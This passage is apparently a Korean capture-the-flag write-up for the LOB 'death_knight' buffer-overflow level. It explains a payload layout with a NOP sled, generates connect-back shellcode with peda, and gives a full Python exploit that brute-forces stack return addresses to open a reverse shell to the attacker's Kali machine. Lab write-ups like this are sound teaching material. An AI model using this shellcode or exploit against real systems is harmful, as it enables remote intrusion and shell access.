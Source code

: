 브루트포싱으로 ret주소를 찾아야 하기 때문에 쉘코드 전에 NOP를 어느정도 넣어주어야 한다. 

`| dummy(44) | RET(4) | NOP(100) | shellcode |`

------

#### 쉘코드 작성 

이제 쉘코드를 만들자.

쉘코드는 peda에서 쉽게 생성 할 수 있다.

<img src="http://eliez3r.synology.me/assets/img/writeup/lob/20.death_knight/image-20180802150332084.png" width="600px">

peda를 실행하기 위해 아무 바이너리를 불러오고 `shellcode generate x86/linux connect [port] [ip]` 를 적어주면 쉘코드가 생성된다.

이때 ip와 port를 공격당한 서버가 접속 할 곳이다. (필자는 kali로 접속하도록 하였다.)

------

#### 환경 설정

이제 kali에서 쉘코드에 작성한 대로 port를 열고 기다려야 한다.

<img src="http://eliez3r.synology.me/assets/img/writeup/lob/20.death_knight/image-20180802150648768.png" width="600px">

그리고 kali에서 따른 터미널을 열어 exploit 코드를 작성하였다.

------

### 0x02. Exploit

```python
import sys
import struct
from socket import *

p32 = lambda x: struct.pack('<I', x)

host = "192.168.122.130"
port = 6666

shellcode  = "\x31\xdb\x53\x43\x53\x6a\x02\x6a\x66\x58\x89\xe1\xcd\x80\x93\x59"
shellcode += "\xb0\x3f\xcd\x80\x49\x79\xf9\x5b\x5a\x68\x0a\xd3\x37\x04\x66\x68"
shellcode += "\x11\x5c\x43\x66\x53\x89\xe1\xb0\x66\x50\x51\x53\x89\xe1\x43\xcd"
shellcode += "\x80\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53"
shellcode += "\x89\xe1\xb0\x0b\xcd\x80"

for i in range(0xbfff0000, 0xbfffffff, 10):
    r = socket(AF_INET, SOCK_STREAM)
    r.connect((host,port))

    print "Addr : %s"%hex(i)

    payload  = "A"*44
    payload += p32(i)
    payload += "\x90"*100
    payload += shellcode

    print r.recv(52),
    print r.recv(6)
    r.send(payload)
    r.close()
```

